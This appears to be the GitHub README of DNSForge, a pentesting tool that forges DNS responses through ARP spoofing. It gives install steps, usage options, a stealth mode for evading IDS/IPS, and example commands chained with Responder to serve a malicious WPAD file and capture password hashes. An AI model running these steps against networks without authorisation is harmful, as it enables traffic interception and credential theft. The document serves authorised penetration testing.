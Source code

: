 # DNSForge
DNSForge is a network pentesting tool that aims to forge DNS responses as if they were originating from the authoritative nameserver. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder).

## Attack Scenario
This tool lends itself in the context of an internal network that consists of Windows workstations and servers. DNSForge utilizes ARP spoofing to redirect DNS requests intended for the authoritative nameserver to the attacker's host. Upon receiving DNS requests, DNSForge poisons the response with the attacker's IP address and, in stealth mode configuration, forges the authoritative nameserver's SOA record. This induces victims to accept DNS responses from a seemingly legitimate source and performs an adversary-in-the-middle attack.

## Installation
The tool can be installed using [pipx](https://github.com/pypa/pipx)
```bash
pipx install git+https://github.com/AonCyberLabs/DNSForge
```

Alternatively, the tool can be installed using [Poetry](https://python-poetry.org/) after cloning the repo.
```bash
poetry install
poetry shell
```

## Usage
```
 ______   ____  _____   ______   ________
|_   _ `.|_   \|_   _|.' ____ \ |_   __  |
  | | `. \ |   \ | |  | (___ \_|  | |_ \_|.--.   _ .--.  .--./) .---.
  | |  | | | |\ \| |   _.____`.   |  _| / .'`\ \[ `/'`\]/ /'`\;/ /__\\
 _| |_.' /_| |_\   |_ | \____) | _| |_  | \__. | | |    \ \._//| \__.,
|______.'|_____|\____| \______.'|_____|  '.__.' [___]   .',__`  '.__.'
                                                       ( ( __))
Author : Apurva Goenka
Version : 0.2.0

usage: dnsforge [-h] -i INTERFACE -p POISON_IP [-ttl TIME_TO_LIVE] [-q QUERY_NAME] [-s] [-v]
                [-ds DNS_SERVER] [-d DOMAIN] (-t TARGET | -tf TARGET_FILE | --no-arp-spoof)

DNS Response Forger

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to sniff/poison on
  -p POISON_IP, --poison-ip POISON_IP
                        IP address to forge/poison DNS response
  -ttl TIME_TO_LIVE, --time-to-live TIME_TO_LIVE
                        TTL (seconds) for poisoned DNS response
  -q QUERY_NAME, --query-name QUERY_NAME
                        DNS Query Name to Poison
  -s, --stealth         Stealth Mode
  -v, --verbose         Verbose Output

Stealth Mode:
  -ds DNS_SERVER, --dns-server DNS_SERVER
                        IP address of Authoritative DNS Server
  -d DOMAIN, --domain DOMAIN
                        The domain name of the victim domain

ARP Spoofing:
  -t TARGET, --target TARGET
                        ARP spoofing target IP
  -tf TARGET_FILE, --target-file TARGET_FILE
                        ARP spoofing target IP list
  --no-arp-spoof        Turn off ARP spoofing
```

## Stealth Mode
This option requests the SOA record from the authoritative DNS server and appends it to forged DNS responses for added stealth on networks with IDS/IPS devices. With this mode enabled, the tool produces DNS response messages that exactly match those generated from the authoritative DNS server.

## ARP Spoofing
The tool can be supplied either a target IP with `-t`, a file with target IPs with `-tf` or the `--no-arp-spoof` flag that turns off ARP spoofing and lets the user decide the method of redirecting DNS packets to the attacker's host. At least one of these options must be supplied.

## Example (Basic)
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests
```sudo dnsforge -i <Interface> -p <Poison IP> -t <Target ARP Spoof IP> -q wpad```
2. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -P```

## Example (Stealth)
Sample scenario of poisoning DNS requests for WPAD issued by victim host in stealth mode:
1. Setup DNS Forge to poison incoming requests after capturing SOA signaure from DNS server.
```sudo dnsforge -i <Interface> -p <Poison IP> -t <Target ARP Spoof IP> -q wpad -s -ds <DNS Server IP> -d <Domain Name>```
2. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -P```

### Copyright
Copyright 2024 Aon plc